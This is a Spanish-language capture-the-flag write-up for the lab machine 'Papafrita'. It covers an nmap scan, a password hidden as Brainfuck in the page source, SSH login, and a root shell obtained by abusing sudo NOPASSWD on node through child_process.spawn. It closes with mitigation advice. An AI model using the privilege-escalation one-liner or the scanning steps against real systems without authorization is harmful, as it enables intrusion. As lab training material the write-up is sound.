### Información General

|Campo|Detalle|
|---|---|
|Máquina|Papafrita|
|Plataforma|TheHackersLabs|
|IP|192.168.241.175|
|Sistema Operativo|Linux (Debian)|
|Servicios expuestos|22/tcp (SSH), 80/tcp (HTTP)|
|Vector inicial|Mensaje Brainfuck en código fuente → credencial SSH|
|Escalada de privilegios|`sudo` NOPASSWD sobre `/usr/bin/node`|

### Resumen del Ataque

El reconocimiento inicial reveló únicamente SSH y HTTP, con Apache mostrando la página por defecto de Debian. Sin embargo, el código fuente de la página escondía una cadena en Brainfuck que, al decodificarla, arrojó la contraseña `abuelacalientalasopa`. Por lógica del nombre de la contraseña se dedujo el usuario `abuela`, con el que se obtuvo acceso SSH directo. Desde ahí, `sudo -l` mostró permiso NOPASSWD sobre el binario `node`, lo que permitió generar una shell como root abusando de `child_process.spawn`.

### Técnicas Usadas

- Escaneo de puertos completo con Nmap (`-p-`, `-sS`, `--min-rate`)
- Enumeración de versiones y scripts (`-sC -sV`)
- Análisis de código fuente HTTP en busca de datos ocultos
- Decodificación de esteganografía textual (Brainfuck)
- Deducción de credenciales por contexto/lógica
- Escalada de privilegios vía GTFOBins (`node` con NOPASSWD)

### Desarrollo

**1. Escaneo de puertos completo**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.175
```



**2. Enumeración de servicios y versiones**

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.175
```



**3. Revisión del servicio web**

```
http://192.168.241.175/
```

La página mostraba la plantilla por defecto de Apache, pero el código fuente contenía una cadena en Brainfuck:

```
++++++++++[>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++>++++++++++++>+++++++++++>+++++++++++>++++++++++<<<<<<<<<<<<<<<<<<<<-]>---.>--.>---.>+.>--.>---.>-.>---.>--.>-----.>+.>.>----.>---.>--.>---.>-----.>+.>++.>---.
```

Usando [dcode.fr](https://www.dcode.fr/brainfuck-language) se obtuvo la cadena `abuelacalientalasopa`.



Por lógica, si la contraseña hacía referencia a una "abuela", se dedujo que el usuario del sistema sería `abuela`.

**5. Acceso SSH**

```
ssh abuela@192.168.241.175
```

```
abuela@papafrita:~$ whoami
```



**6. Enumeración de usuarios del sistema**

```
abuela@papafrita:~$ grep bash /etc/passwd
```



**7. Intento de lectura de la flag de usuario (denegado)**

```
abuela@papafrita:~$ cat user.txt 
```



```
abuela@papafrita:~$ ls -la
```



El fichero `user.txt` pertenece a `root` y solo tiene permiso de lectura para su propietario, por lo que era necesario escalar privilegios.

**8. Enumeración de privilegios sudo**

```
abuela@papafrita:~$ sudo -l
```



**9. Escalada de privilegios vía Node.js**

```
abuela@papafrita:~$ sudo /usr/bin/node -e 'require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]})'
```

```
root@papafrita:~# whoami
```



**10. Captura de flags**

```
root@papafrita:/home/abuela# cat user.txt 
```



```
root@papafrita:/home/abuela# cd /root
root@papafrita:~# cat root.txt 
```



### Lecciones Aprendidas

- La información sensible no siempre está en rutas obvias: revisar el código fuente HTML/HTTP en profundidad puede revelar datos ocultos mediante esteganografía textual.
- Herramientas de decodificación como Brainfuck son sencillas de identificar por su sintaxis característica (`+`, `-`, `>`, `<`, `.`, `[`, `]`) y merecen probarse ante cadenas inusuales.
- `node` está catalogado en GTFOBins como binario peligroso para privilegios `sudo`, ya que permite ejecución arbitraria de código, incluyendo spawn de shells.

### Medidas de Mitigación

- No ocultar credenciales ni pistas de acceso en el código fuente de páginas públicas, ni siquiera mediante ofuscación (Brainfuck, Base64, etc.).
- Aplicar el principio de mínimo privilegio en las reglas de `sudoers`: nunca otorgar NOPASSWD sobre intérpretes o binarios con capacidad de ejecutar comandos arbitrarios (`node`, `python`, `perl`, `find`, etc.) — ver GTFOBins.
- Auditar periódicamente las reglas de `sudo -l` de todos los usuarios del sistema.
